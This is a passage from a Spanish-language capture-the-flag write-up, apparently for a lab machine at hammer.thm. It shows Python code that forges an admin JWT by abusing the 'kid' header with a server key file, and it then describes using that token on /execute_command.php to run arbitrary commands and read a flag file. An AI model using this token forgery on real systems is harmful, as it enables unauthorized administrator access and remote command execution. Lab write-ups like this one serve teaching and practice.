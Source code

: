```
# Header y payload basados en la información proporcionada
headers = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/188ade1.key"
}

payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": 1743909600,
    "exp": 9999999999,
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "admin"
    }
}

# Generar el token JWT
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=headers)

print(token)
```

### 5. Escalada de privilegios y ejecución remota
Con el nuevo JWT modificado con privilegios de administrador, se utilizó la funcionalidad del endpoint `/execute_command.php` para ejecutar comandos arbitrarios. Esto permitió listar archivos, extraer el contenido de flags almacenadas en el sistema (`/home/ubuntu/flag.txt`) y verificar el contexto de ejecución (`uid=33(www-data)`).
![](hammer4.png.png)
